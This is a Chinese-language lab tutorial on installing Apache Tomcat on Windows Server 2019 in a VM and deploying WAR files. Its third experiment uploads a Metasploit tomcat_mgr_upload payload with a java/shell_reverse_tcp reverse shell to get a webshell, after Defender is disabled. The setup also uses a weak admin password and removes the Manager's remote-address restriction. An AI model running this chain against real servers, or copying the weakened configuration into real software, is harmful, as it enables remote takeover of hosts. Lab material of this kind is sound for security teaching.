



# Windows For Tomcat

## 1.准备工作

VirtualBox虚拟机，还原windows server 2019第一次快照

Tomcat for windows安装包 https://tomcat.apache.org/download-90.cgi

jdk安装包  https://www.oracle.com/java/technologies/downloads/#java8

war包  https://www.jenkins.io/download/

## 2.Tomcat简介

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现，Tomcat 5支持最新的Servlet 2.4 和JSP 2.0 规范。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。对于一个初学者来说，可以这样认为，当在一台机器上配置好Apache 服务器，可利用它响应HTML（标准通用标记语言下的一个应用）页面的访问请求。实际上Tomcat是Apache 服务器的扩展，但运行时它是独立运行的，所以当你运行tomcat 时，它实际上作为一个与Apache 独立的进程单独运行的。

## 3.Tomcat搭建

把所需的文件包拷贝到虚拟机内

双击安装jdk for windows,向导开始的介绍直接下一步就好

这步可以修改要安装的功能以及安装路径,我们保持默认,直接下一步

开始下载安装程序

选择java安装的路径,保持默认下一步即可

开始自动安装

安装完成,点击关闭即可

验证Java是否已经成功安装,输入java -version可以显示版本就是成功了

双击tomcat9.0.62安装包打开安装程序,第一步是欢迎界面,点击next

许可协议,点击I Agree

选择安装的功能,勾选Host Manager即可Examples是示例文件,存在session会话劫持漏洞,就不安装了,选择好后点击next

端口,服务名以及规则保持默认就可以啦,填写管理用户为farmsec,密码为123.bmk然后点击next

选择jdk安装路径,保持默认即可,安装jdk修改过路径的话修改为你设定的路径就可以了,点击next下一步

tomcat的安装路径,可以保持默认,直接点击install安装

安装完成,去掉show Readme的钩,点击finish

打开浏览器输入http://127.0.0.1:8080如果显示tomcat界面即服务启动

## 4.实验

### 实验（一）

写一个jsp文件,验证解析情况

在tomcat文档目录C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\docs中新建一个test.jsp文件

在test.jsp中写入：
`<%`
	`out.println("Hello World!");`
`%>`

打开浏览器访问http://127.0.0.1:8080/docs/test.jsp发现helloworld被成功解析

### 实验（二）

使用war包部署一个web网站

浏览器输入http://127.0.0.1:8080,点击Manager App进入管理界面

在kali浏览器中打开http://192.168.10.82:8080/，点击Manager APP会403

修改服务器文件C:\Program Files\Apache Software Foundation\Tomcat 9.0\conf\tomcat-users.xml

在</tomcat-users>前添加:

`<role rolename="admin-gui"/>`
`<role rolename="admin-script"/>`
`<role rolename="manager-gui"/>`
`<role rolename="manager-script"/>`
`<role rolename="manager-jmx"/>`
`<role rolename="manager-status"/>`
`<user username="farmsec" password="123.bmk" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-script,admin-gui"/>`

修改服务器文件C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\manager\META-INF\context.xml，使用`<!-- -->`注释掉以下内容：

`<Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />`
  `<Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>`

重启tomcat服务，在系统托盘下有图标，点开后点击stop，再点击start即可

正常访问

输入安装时设置的账号密码:farmsec 123.bmk点击确定

下滑找到要部署的WAR文件处，点击浏览，选中jenkins.war包打开即可

点击部署即可自动部署war包，发现报错失败 - 部署上传失败，异常信息：[org.apache.tomcat.util.http.fileupload.impl.SizeLimitExceededException: the request was rejected because its size (70809454) exceeds the configured maximum (52428800)]。这个代表war包太大，无法上传。

需要修改C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\manager\WEB-INF\web.xml文件，调整57、58的数值大小

右下角再次重启tomcat服务后再次上传，部署完成后,点击项目名(/jenkins)即可进

WAR包部署完成，可以正常工作

### 实验（三）

上传存有木马的war包获取webshell

kali打开Metasploit-Framework(msfconsole)

使用tomcat_mgr_upload模块，此模块可用于在具有公开“管理器”应用程序的Apache Tomcat服务器上执行有效负载。有效负载作为WAR存档上载，包含使用针对/ manager / html / upload组件的POST请求的jsp应用程序

`use multi/http/tomcat_mgr_upload`

设置参数

`set httpusername farmsec	#设置Manager管理页面的用户名`

`set httppassword 123.bmk	#设置Manager管理页面的密码`

`set rhosts 192.168.20.194	#设置目标IP`

`set rport 8080	#设置目标端口`

设置payload

`set payload java/shell_reverse_tcp`

设置跳过指纹检测

指定kali本机IP

输入run或者exploit启动攻击，发现没有成功，这就是Windows2019 Defender的问题，默认是开启的，可以阻挡大部分的木马及病毒

在Windows server 2019上打开Windows安全设置，左侧点击病毒和威胁防护，点击“病毒和威胁防护”设置下的管理设置

关闭实时保护、云提供的保护、自动提交样本

再次输入run或者exploit启动攻击，攻击成功

输入chcp65001解决乱码问题，然后就可以执行命令了

